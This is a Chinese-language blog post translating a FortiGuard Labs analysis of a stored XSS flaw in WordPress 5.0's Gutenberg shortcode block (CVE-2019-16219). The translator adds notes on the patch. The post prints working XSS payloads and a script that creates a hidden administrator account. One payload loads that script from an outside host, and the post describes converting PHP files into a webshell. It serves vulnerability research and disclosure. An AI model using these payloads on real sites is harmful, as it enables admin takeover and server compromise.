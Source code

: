 ```yaml
---
title: 【翻译】浅析WordPress5.0存储型XSS漏洞
date: 2019-09-23 14:30:26
tags: 翻译
categories: 技术
---
```


![](http://blog.nsfocus.net/wp-content/uploads/2018/08/webshell.png)

最近，笔者在研究一些与WordPress漏洞相关内容。Sucuri、RIPS、Fortinet等安全公司对WordPress有着一系列的深入研究，因此笔者计划陆续将一些有意思文章翻译出来，与大家共同学习下，祝君多挖漏洞。

<!--more-->

这篇文章是来自FortiGuard Labs，本文介绍了存在于wordpress5.0版本中的xss漏洞。经我个人验证，从wordpress5.0版本起，由于强制使用古腾堡(Gutenberg)编辑器，内部存在不少xss漏洞，而本文中的漏洞，一直存在至5.0.5版本，而非文中所说的5.0.4。

下面翻译稿正文开始

## 前言

WordPress 是世界上最受欢迎的内容管理系统 （CMS），它的全球CMS市场份额已达60.4%，远远高于排名第二的Joomla！（后者仅有5.2%市场份额）。因此，互联网上超过三分之一的网站是使用WordPress搭建的。

近日，FortiGuard Labs团队在 WordPress 中发现了一个存储型跨站点脚本 （XSS）0day漏洞。此 XSS 漏洞是由 WordPress 5.0 中的新内置编辑器 Gutenberg 引起的，编辑器无法过滤Shortcode错误消息中的 JavaScript/HTML 代码。一旦受害者访问受感染网页，具有投稿者（Contributor）或更高权限的远程攻击者就可以在其浏览器中执行任意 JavaScript/HTML 代码。倘若受害者具有较高权限（如：管理员），攻击者甚至可以攻陷整个 Web 服务器。

此存储型XSS漏洞（[CVE-2019-16219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219)）影响WordPress 5.0到[5.0.4,5.1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219)和5.1.1版本。

## 解析

在WordPress 5.0中，用户可以将Shortcode块添加到帖子中。若将某些特定的HTML编码字符（如“＆lt;”）添加到短代码块中，重新打开该帖时，WordPress就会显示错误消息，并将“＆lt;”解码为“<”来进行预览。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141338-c948f9c4-db6d-1.png)

图1.注入HTML编码字符Shortcode块

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141349-cf90eed6-db6d-1.png)

图2.Shortcode错误消息预览

使用PoC代码

```
"&gt;&lt;img src=1 onerror=alert("熊本熊本熊")&gt;
```

可以轻松绕过此预览中的XSS过滤器。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141406-d99b9ad4-db6d-1.png)

图3.将PoC代码插入Shortcode块

当受害者查看该帖时，XSS代码将在其浏览器中执行。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141415-df3c5a5a-db6d-1.png)

图4. WordPress短代码预览XSS

如果受害者恰好拥有管理员权限，攻击者即可以利用此漏洞获取管理员帐户的控制权，利用WordPress内置函数 getShell，然后控制服务器。

例如，攻击者可以在其Web服务器上托管JavaScript文件，例如[wpaddadmin [。\] js](https://g0blin.co.uk/xss-and-wordpress-the-aftermath/)（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“attacker”，密码为“attacker”。

```javascript
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1];  

// Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
ajaxRequest = new XMLHttpRequest();  
ajaxRequest.open("POST", requestURL, true);  
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
ajaxRequest.send(params);
```

然后，攻击者可以在JavaScript中注入以下PoC代码。

```
"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141432-e97fa756-db6d-1.png)

图5.注入XSS代码以添加管理员帐户

一旦具有高权限的受害者查看此帖，就会立即创建attacker管理员帐户。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141451-f476286a-db6d-1.png)

图6.执行XSS代码

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141504-fcb25f76-db6d-1.png)

图7.使用XSS代码，成功创建具有管理员权限的“attacker”帐户

随之，攻击者可以将现有的php文件修改为webshell，并借此来控制Web服务器。 

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141516-038c2df4-db6e-1.png)

图8.使用攻击者的帐户添加webshell

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141526-09a274fa-db6e-1.png)

图9.控制Web服务器

## 解决方案

建议使用受影响版本的WordPress用户，尽快升级到最新版本或立即应用最新的补丁。

翻译正文到此结束

## 写在翻译稿后面

我跟踪了下wordpress的修复

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141538-10bb5d88-db6e-1.png)

本次都修复位于wp-includes\js\dist\block-library.js中

由于原先shortcode的*attributes* 属性中source值为'text'，前端页面在解析shortcode中的&lt;值时，会将其解析为<,从而造成闭合，如下图

![](https://xzfile.aliyuncs.com/media/upload/picture/20190920141547-15d8ea92-db6e-1.png)

修复后shortcode的*attributes* 属性中source值为html，前端脚本不再解析&lt;

原文链接：https://www.fortinet.com/blog/threat-research/wordpress-core-stored-xss-vulnerability.html